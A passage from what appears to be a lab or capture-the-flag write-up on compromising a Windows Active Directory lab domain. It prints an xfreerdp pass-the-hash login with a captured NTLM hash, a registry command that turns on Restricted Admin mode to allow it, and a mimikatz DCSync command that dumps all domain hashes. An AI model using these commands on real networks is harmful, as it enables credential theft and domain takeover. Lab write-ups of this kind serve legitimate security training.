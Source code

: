 ```bash
xfreerdp /u:cpowers /d:lab.trusted.vl /pth:322db798a55f85f09b3d61b976a13c43 /v:10.10.239.230

```

Restricted administrator mode, which is disabled by default, must be enabled on the target host; otherwise, the following error will be displayed:

![Desktop View](/assets/img/sample/Trusteds/image%207.png){: .normal }

 This feature can be enabled by adding a new registry key DisableRestrictedAdmin (REG_DWORD) under HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa with a value of 0. This can be done using the following command

```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once reconnected in graphical mode, we try this command again in administrator mode. 

```bash
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all
```

![Desktop View](/assets/img/sample/Trusteds/image%208.png){: .normal }

We have obtained the hash for the Administrator user of the parent domain. Now let's try to log in. 
